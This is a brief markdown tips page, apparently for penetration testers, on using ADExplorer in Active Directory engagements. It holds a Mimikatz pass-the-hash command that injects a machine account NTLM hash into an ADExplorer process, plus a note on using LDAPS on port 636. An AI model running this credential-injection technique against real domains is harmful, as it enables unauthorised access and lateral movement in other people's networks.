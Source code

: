 # ADExplorer Tips & Trics

### [Injecting Hash](https://www.trustedsec.com/blog/adexplorer-on-engagements/)

Inject the machine account hash into a new modified ADExplorer.exe process

```
sekurlsa::pth /user:<name of machine account>$ /domain:<domainname.com> /ntlm:<machine account NTLM hash> /run:"c:\Program Files\Tools\adexplorer.exe"
```

It is preferred to use LDAPS whenever you can by using 636 as the port instead of the default 389.

```
Connect to: <IP>:636
```

```

```

```

```
